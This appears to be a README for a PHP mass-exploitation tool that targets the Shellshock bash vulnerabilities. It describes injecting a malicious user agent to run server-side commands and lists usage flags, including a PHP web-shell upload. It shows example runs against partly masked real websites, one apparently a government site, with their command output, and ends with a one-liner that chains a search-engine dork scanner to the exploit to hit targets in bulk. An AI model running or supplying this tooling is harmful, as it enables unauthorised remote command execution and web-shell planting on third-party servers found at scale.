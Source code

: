 - Xpl-SHELLSHOCK-Ch3ck
------
The tool inject a malicious user agent that allows exploring the vulnerabildiade   sheellshock running server-side commands.

```
  # SCRIPT by:     [ I N U R L  -  B R A S I L ] - [ By GoogleINURL ]
  # EXPLOIT NAME:  Xpl SHELLSHOCK Ch3ck Tool - (MASS)/ INURL BRASIL
  # AUTOR:         Cleiton Pinheiro / Nick: googleINURL
  # Email:         inurlbr@gmail.com
  # Blog:          http://blog.inurl.com.br
  # Twitter:       https://twitter.com/googleinurl
  # Fanpage:       https://fb.com/InurlBrasil
  # Pastebin       http://pastebin.com/u/Googleinurl
  # GIT:           https://github.com/googleinurl
  # PSS:           http://packetstormsecurity.com/user/googleinurl
  # YOUTUBE:       http://youtube.com/c/INURLBrasil
  # PLUS:          http://google.com/+INURLBrasil
```
  
- DESCRIPTION - VULNERABILITY(SHELLSHOCK)
------
```
- CVE-2014-6271, CVE-2014-6277,
- CVE-2014-6278, CVE-2014-7169,
- CVE-2014-7186, CVE-2014-7187
Is a vulnerability in GNU's bash shell that gives attackers access
to run remote commands on a vulnerable system.
```

- DESCRIPTION - TOOL
------
```
The tool inject a malicious user agent that allows exploring the vulnerabildiade
sheelshock running server-side commands.
``` 

-  Dependencies:
------
```
sudo apt-get install php5 php5-cli php5-curl
```

 - Execute:
------
```
  -t : SET TARGET.
  -f : SET FILE TARGETS.
  -c : SET COMMAND.
  -w : SET UPLOAD SHELL PHP.
  Execute:
  php xplSHELLSHOCK.php -t target -c command
  php xplSHELLSHOCK.php -f targets.txt -c command
  SHELL UPLOAD: php xplSHELLSHOCK.php -t target -c command -w
  OUTPUT VULN: SHELLSHOCK_vull.txt
```
 - Exemples:
------
```
php xpl.php -t 'http://www.xxxcamnpalxxx.com.br/cgi-bin/login.sh' -c pwd
CMD:
Linux serv 2.6.29.6-smp #2 SMP Mon Aug 17 00:52:54 CDT 2009 i686 Intel(R) Xeon(R) CPU E5504  @ 2.00GHz GenuineIntel GNU/Linux
uid=1000(icone) gid=100(users) groups=100(users)
/ico/camnpal/cgi-bin
END_CMD:


php xpl.php -t 'http://www.xxxbnmxxx.me.gov.ar/cgi-bin/wxis.exe/opac/?IsisScript=opac/opac.xis' -c pwd
CMD:
Linux sitiobnm 2.6.37BNM #26 SMP Tue Jan 25 19:22:26 ART 2011 x86_64 GNU/Linux
uid=1005(webmaster) gid=1003(webmaster) groups=1003(webmaster)
/mnt/volume1/sitio/data/catalogos/cgi-bin
END_CMD:
```

 - EXPLOIT MASS USE SCANNER INURLBR
------
```
./inurlbr.php --dork 'inurl:"/cgi-bin/login.sh"' -s out.txt -q 1,6 --command-vul "php xpl.php -t '_TARGETFULL_' -c pwd"
```
More details about inurlbr scanner: https://github.com/googleinurl/SCANNER-INURLBR
